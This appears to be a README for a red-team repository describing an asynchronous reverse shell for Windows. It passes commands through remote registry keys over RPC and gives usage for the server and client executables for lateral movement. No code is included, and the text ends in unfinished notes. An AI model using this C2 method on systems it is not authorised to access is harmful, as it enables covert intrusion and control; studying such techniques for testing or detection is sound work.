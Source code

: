 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard TCP reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is also just like Cobalt Strikes sleep timer. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows administrators to read, write & delete registry keys on remote systems using the RPC protocol. Using  custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, should only be suitable for lateral movement on local networks. 

### Usage:
**Server-side:**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
>help
sleep 10         Set the sleep time to 10
cmd whoami       Execute whoami
exit             Exit the application gracefully
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**How it works:**
When starting the server, the Remote Registry Service is enabled, and the following registry keys are created: cmd, output & sleep. 

### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
